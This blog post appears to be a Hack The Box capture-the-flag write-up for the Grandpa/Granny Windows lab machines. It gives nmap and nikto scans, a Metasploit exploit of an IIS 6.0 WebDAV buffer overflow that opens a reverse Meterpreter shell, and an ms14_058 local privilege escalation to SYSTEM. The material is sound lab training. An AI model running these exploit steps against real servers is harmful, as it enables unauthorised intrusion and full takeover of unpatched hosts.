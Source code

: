 ```yaml
---
layout: post
title: Grandpa/Granny (HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.14/15 

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.15</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2018-02-22 18:56 EST
<br>Nmap scan report for 10.10.10.15
<br>Host is up (0.17s latency).
<br>Not shown: 999 filtered ports
<br>PORT   STATE SERVICE VERSION
<br><font color="BB69EC">80/tcp</font> open  http    <font color="53E100">Microsoft IIS httpd 6.0</font>
<br>| http-methods: 
<br>|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
<br>|_http-server-header: Microsoft-IIS/6.0
<br>|_http-title: Under Construction
<br>| <font color="ffff00">http-webdav-scan</font>: 
<br>|   Server Type: Microsoft-IIS/6.0
<br>|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
<br>|   <font color="ffff00">WebDAV type</font>: Unkown
<br>|   Server Date: Thu, 22 Feb 2018 23:53:57 GMT
<br>|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose
<br>Running (JUST GUESSING): Microsoft Windows 2003|XP|2008 (92%)
<br>OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_xp::sp2 <br>cpe:/o:microsoft:windows_server_2008::sp2
<br>Aggressive OS guesses: Microsoft Windows Server 2003 SP1 - SP2 (92%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows XP <br>SP2 or Windows Server 2003 SP2 (91%), Microsoft Windows Server 2003 R2 SP2 (88%), Microsoft Windows Server 2003 SP1 or R2 (88%), <br>Microsoft Windows 2003 SP2 (86%), Microsoft Windows Server 2003 SP1 or SP2 (86%), Microsoft Windows XP SP2 (86%), Microsoft Windows <br>2003 R2 (86%), Microsoft Windows Server 2003 (86%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows</p>

<p>TRACEROUTE (using port 80/tcp)
<br>HOP RTT       ADDRESS
<br>1   170.45 ms 10.10.14.1
<br>2   170.49 ms 10.10.10.15</p>

<p>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 38.06 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

<br>Only port open is open and the web server is IIS httpd 6.0 and webdav is also available in which put method is allowed, and the webpage is also not available.

**Nikto**
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nikto -h 10.10.10.15
<br>- Nikto v2.1.6
<br>---------------------------------------------------------------------------
<br>+ Target IP:          10.10.10.15
<br>+ Target Hostname:    10.10.10.15
<br>+ Target Port:        80
<br>+ Start Time:         2018-02-22 19:01:01 (GMT-5)
<br>---------------------------------------------------------------------------
<br>+ Server: Microsoft-IIS/6.0
<br>+ Retrieved microsoftofficewebserver header: 5.0_Pub
<br>+ Retrieved x-powered-by header: ASP.NET
<br>+ The anti-clickjacking X-Frame-Options header is not present.
<br>+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
<br>+ Uncommon header 'microsoftofficewebserver' found, with contents: 5.0_Pub
<br>+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
<br>+ Retrieved x-aspnet-version header: 1.1.4322
<br>+ No CGI Directories found (use '-C all' to force check all possible dirs)
<br>+ OSVDB-397: HTTP method <font color="ffff00">'PUT'</font> allows clients to save files on the web server.
<br>+ OSVDB-5646: HTTP method 'DELETE' allows clients to delete files on the web server.
<br>+ Retrieved dasl header: <font color="ffff00"> DAV:sql </font>
<br>+ Retrieved dav header: 1, 2
<br>+ Retrieved ms-author-via header: MS-FP/4.0,DAV
<br>+ Uncommon header 'ms-author-via' found, with contents: MS-FP/4.0,DAV
<br>+ Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
<br>+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
<br>+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
<br>+ OSVDB-5647: HTTP method ('Allow' Header): 'MOVE' may allow clients to change file locations on the web server.
<br>+ Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
<br>+ OSVDB-5646: HTTP method ('Public' Header): 'DELETE' may allow clients to remove files on the web server.
<br>+ OSVDB-397: HTTP method ('Public' Header): 'PUT' method could allow clients to save files on the web server.
<br>+ OSVDB-5647: HTTP method ('Public' Header): 'MOVE' may allow clients to change file locations on the web server.
<br>+ WebDAV enabled (UNLOCK PROPPATCH COPY LOCK PROPFIND MKCOL SEARCH listed as allowed)
<br>+ OSVDB-13431: PROPFIND HTTP verb may show the server's internal IP address: http://granny/_vti_bin/_vti_aut/author.dll
<br>+ OSVDB-396: /_vti_bin/shtml.exe: Attackers may be able to crash FrontPage by requesting a DOS device, like shtml.exe/aux.htm -- a DoS was not attempted.
<br>+ OSVDB-3233: /postinfo.html: Microsoft FrontPage default file found.
<br>+ OSVDB-3233: /_vti_bin/shtml.exe/_vti_rpc: FrontPage may be installed.
<br>+ OSVDB-3233: /_private/: FrontPage directory found.
<br>+ OSVDB-3233: /_vti_bin/: FrontPage directory found.
<br>+ OSVDB-3233: /_vti_inf.html: FrontPage/SharePoint is installed and reveals its version number (check HTML source for more information).
<br>+ OSVDB-3300: /_vti_bin/: shtml.exe/shtml.dll is available remotely. Some versions of the Front Page ISAPI filter are vulnerable to a DOS (not attempted).
<br>+ OSVDB-3500: /_vti_bin/fpcount.exe: Frontpage counter CGI has been found. FP Server version 97 allows remote users to execute arbitrary system commands, though a vulnerability in this version could not be confirmed. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-1376. http://www.securityfocus.com/bid/2252.
<br>+ OSVDB-67: /_vti_bin/shtml.dll/_vti_rpc: The anonymous FrontPage user is revealed through a crafted POST</p>
</div>
</font>

<br>If you google about IIS 6.0 webdav you can find a BOF [exploit](https://www.exploit-db.com/exploits/41738/), and there is a msf module also available for this similar exploit which we are going to use.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>msf > use exploit/windows/iis/iis_webdav_scstoragepathfromurl
<br>msf exploit(<font color="red">iis_webdav_scstoragepathfromurl</font>) > show options </p>

<p>Module options (exploit/windows/iis/iis_webdav_scstoragepathfromurl):</p>

<p>&nbsp;&nbsp;&nbsp;Name&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Current&nbsp;Setting&nbsp;&nbsp;Required&nbsp;&nbsp;Description
<br>&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;---------------&nbsp;&nbsp;--------&nbsp;&nbsp;-----------
<br>&nbsp;&nbsp;&nbsp;MAXPATHLENGTH&nbsp;&nbsp;60&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;yes&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;End of physical path brute force
<br>&nbsp;&nbsp;&nbsp;MINPATHLENGTH&nbsp;&nbsp;3&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;yes&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Start of physical path brute force
<br>&nbsp;&nbsp;&nbsp;Proxies&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;no&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;A proxy chain of format type:host:port[,type:host:port][...]
<br>&nbsp;&nbsp;&nbsp;RHOST&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;yes&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;The target address
<br>&nbsp;&nbsp;&nbsp;RPORT&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;80&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;yes&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;The target port (TCP)
<br>&nbsp;&nbsp;&nbsp;SSL&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;false&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;no&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Negotiate SSL/TLS for outgoing connections
<br>&nbsp;&nbsp;&nbsp;TARGETURI&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;/&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;yes&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Path of IIS 6 web application
<br>&nbsp;&nbsp;&nbsp;VHOST&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;no&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;HTTP server virtual host</p>


<p>Exploit target:</p>

<p>&nbsp;&nbsp;&nbsp;Id&nbsp;&nbsp;Name
<br>&nbsp;&nbsp;&nbsp;--&nbsp;&nbsp;----
<br>&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;Microsoft Windows Server 2003 R2 SP2 x86</p>


<p>msf exploit(<font color="red">iis_webdav_scstoragepathfromurl</font>) > set RHOST 10.10.10.15
<br>RHOST => 10.10.10.15
<br>msf exploit(<font color="red">iis_webdav_scstoragepathfromurl</font>) > exploit </p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4444 
<br><font color="RoyalBlue">[*]</font> Sending stage (957487 bytes) to 10.10.10.15
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.10.*.*:4444 -> 10.10.10.15:1031) at 2018-02-22 19:23:56 -0500</p>

<p>meterpreter > getuid
<br><font color="red">[-]</font> stdapi_sys_config_getuid: Operation failed: Access is denied.
<br>meterpreter > sysinfo
<br>Computer&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:&nbsp;GRANNY
<br>OS&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:&nbsp;Windows .NET Server (Build 3790, Service Pack 2).
<br>Architecture&nbsp;&nbsp;&nbsp;&nbsp;:&nbsp;x86
<br>System Language&nbsp;:&nbsp;en_US
<br>Domain&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:&nbsp;HTB
<br>Logged On Users&nbsp;:&nbsp;3
<br>Meterpreter&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:&nbsp;x86/windows
<br>meterpreter > </p>
</div>
</font>

<br>We got the session but our sehll has very low privilege not even a user privilege, So first we need to migrate to a process which have some decent privilege and then try to find an exploit using local exploit suggester to escalate our privilege to gain system or administrator level access.

**Privilege Escalation**

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>meterpreter > ps</p>

<p>Process List
<br>============</p>

<p>&nbsp;PID&nbsp;&nbsp;&nbsp;PPID&nbsp;&nbsp;Name&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Arch&nbsp;&nbsp;Session&nbsp;&nbsp;User&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Path
<br>&nbsp;---&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;-------&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----
<br>&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;[System Process]                                               
<br>&nbsp;4&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;System                                                         
<br>&nbsp;260&nbsp;&nbsp;&nbsp;4&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;smss.exe                                                       
<br>&nbsp;316&nbsp;&nbsp;&nbsp;260&nbsp;&nbsp;&nbsp;csrss.exe                                                      
<br>&nbsp;340&nbsp;&nbsp;&nbsp;260&nbsp;&nbsp;&nbsp;winlogon.exe                                                   
<br>&nbsp;388&nbsp;&nbsp;&nbsp;340&nbsp;&nbsp;&nbsp;services.exe                                                   
<br>&nbsp;400&nbsp;&nbsp;&nbsp;340&nbsp;&nbsp;&nbsp;lsass.exe                                                      
<br>&nbsp;568&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;668&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;704&nbsp;&nbsp;&nbsp;1068&nbsp;&nbsp;cidaemon.exe                                                   
<br>&nbsp;728&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;756&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;792&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;928&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;spoolsv.exe                                                    
<br>&nbsp;952&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;msdtc.exe                                                      
<br>&nbsp;1068&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;cisvc.exe                                                      
<br>&nbsp;1112&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;1160&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;inetinfo.exe                                                   
<br>&nbsp;1208&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;1440&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;1572&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;1668&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;alg.exe                                                        
<br>&nbsp;1772&nbsp;&nbsp;568&nbsp;&nbsp;&nbsp;wmiprvse.exe                                                   
<br>&nbsp;1932&nbsp;&nbsp;568&nbsp;&nbsp;&nbsp;davcdata.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x86&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;NT AUTHORITY\NETWORK SERVICE&nbsp;&nbsp;C:\WINDOWS\system32\inetsrv\davcdata.exe
<br>&nbsp;2092&nbsp;&nbsp;1068&nbsp;&nbsp;cidaemon.exe                                                   
<br>&nbsp;2124&nbsp;&nbsp;1068&nbsp;&nbsp;cidaemon.exe                                                   
<br>&nbsp;2204&nbsp;&nbsp;340&nbsp;&nbsp;&nbsp;logon.scr                                                      
<br>&nbsp;3080&nbsp;&nbsp;1440&nbsp;&nbsp;w3wp.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x86&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;NT AUTHORITY\NETWORK SERVICE&nbsp;&nbsp;c:\windows\system32\inetsrv\w3wp.exe
<br>&nbsp;3172&nbsp;&nbsp;3080&nbsp;&nbsp;rundll32.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x86&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;C:\WINDOWS\system32\rundll32.exe</p>

<p>meterpreter > migrate 1932
<br><font color="RoyalBlue">[*]</font> Migrating from 3172 to 1932...
<br><font color="RoyalBlue">[*]</font> Migration completed successfully.
<br>meterpreter > getuid 
<br>Server username: NT AUTHORITY\NETWORK SERVICE
<br>meterpreter > </p>
</div>
</font>

<br>And we successfully migrated to NETWORK SERVICE and now we can run the local exploit suggester.

<font size="1">
<div style="height:200px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>meterpreter > background 
<br><font color="RoyalBlue">[*]</font> Backgrounding session 1...
<br>msf exploit(<font color="red">iis_webdav_scstoragepathfromurl</font>) > use post/multi/recon/local_exploit_suggester \r
<br>msf post(<font color="red">local_exploit_suggester</font>) > set SESSION 1
<br>SESSION => 1
<br>msf post(<font color="red">local_exploit_suggester</font>) > exploit</p>

<p><font color="RoyalBlue">[*]</font> 10.10.10.15 - Collecting local exploits for x86/windows...
<br><font color="RoyalBlue">[*]</font> 10.10.10.15 - 37 exploit checks are being tried...
<br><font color="53E100">[+]</font> 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
<br><font color="53E100">[+]</font> 10.10.10.15 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
<br><font color="53E100">[+]</font> 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
<br><font color="RoyalBlue">[*]</font> Post module execution completed
<br>msf post(<font color="red">local_exploit_suggester</font>) ></p>
</div>
</font>

<br>In Suggestion we got couple of exploits which we can use, lets try with the **ms14_058_track_popup_menu**

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>msf post(<font color="red">local_exploit_suggester</font>) > use exploit/windows/local/ms14_058_track_popup_menu 
<br>msf exploit(<font color="red">ms14_058_track_popup_menu</font>) > show options </p>

<p>Module options (exploit/windows/local/ms14_058_track_popup_menu):</p>

<p>&nbsp;&nbsp;&nbsp;Name&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Current&nbsp;Setting&nbsp;&nbsp;Required&nbsp;&nbsp;Description
<br>&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;---------------&nbsp;&nbsp;--------&nbsp;&nbsp;-----------
<br>&nbsp;&nbsp;&nbsp;SESSION&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;yes&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;The session to run this module on.</p>


<p>Exploit target:</p>

<p>&nbsp;&nbsp;&nbsp;Id&nbsp;&nbsp;Name
<br>&nbsp;&nbsp;&nbsp;--&nbsp;&nbsp;----
<br>&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;Windows x86</p>


<p>msf exploit(<font color="red">ms14_058_track_popup_menu</font>) > set SESSION 1
<br>SESSION => 1
<br>msf exploit(<font color="red">ms14_058_track_popup_menu</font>) > set payload windows/meterpreter/reverse_tcp
<br>payload => windows/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">ms14_058_track_popup_menu</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.*.*
<br>msf exploit(<font color="red">ms14_058_track_popup_menu</font>) > set LPORT 444
<br>LPORT => 444
<br>msf exploit(<font color="red">ms14_058_track_popup_menu</font>) > exploit </p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:444 
<br><font color="RoyalBlue">[*]</font> Launching notepad to host the exploit...
<br><font color="53E100">[+]</font> Process 912 launched.
<br><font color="RoyalBlue">[*]</font> Reflectively injecting the exploit DLL into 912...
<br><font color="RoyalBlue">[*]</font> Injecting exploit into 912...
<br><font color="RoyalBlue">[*]</font> Exploit injected. Injecting payload into 912...
<br><font color="RoyalBlue">[*]</font> Payload injected. Executing exploit...
<br><font color="RoyalBlue">[*]</font> Sending stage (957487 bytes) to 10.10.10.15
<br><font color="53E100">[+]</font> Exploit finished, wait for (hopefully privileged) payload execution to complete.
<br><font color="RoyalBlue">[*]</font> Meterpreter session 2 opened (10.10.*.*:444 -> 10.10.10.15:1031) at 2018-02-22 20:21:02 -0500</p>

<p>meterpreter > getuid 
<br>Server username: NT AUTHORITY\SYSTEM
<br>meterpreter > shell
<br>Process 1660 created.
<br>Channel 1 created.
<br>Microsoft Windows [Version 5.2.3790]
<br>(C) Copyright 1985-2003 Microsoft Corp.</p>

<p>c:\windows\system32\inetsrv>
<br>..
<br>..
<br>C:\Documents and Settings\Lakis\Desktop>type user.txt
<br>type user.txt
<br><font color="53E100">********************************</font>
<br>C:\Documents and Settings\Lakis\Desktop>
<br>..
<br>..
<br>C:\Documents and Settings\Administrator\Desktop>type root.txt
<br>type root.txt
<br><font color="53E100">********************************</font>
<br>C:\Documents and Settings\Administrator\Desktop></p>

</div>
</font>

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>


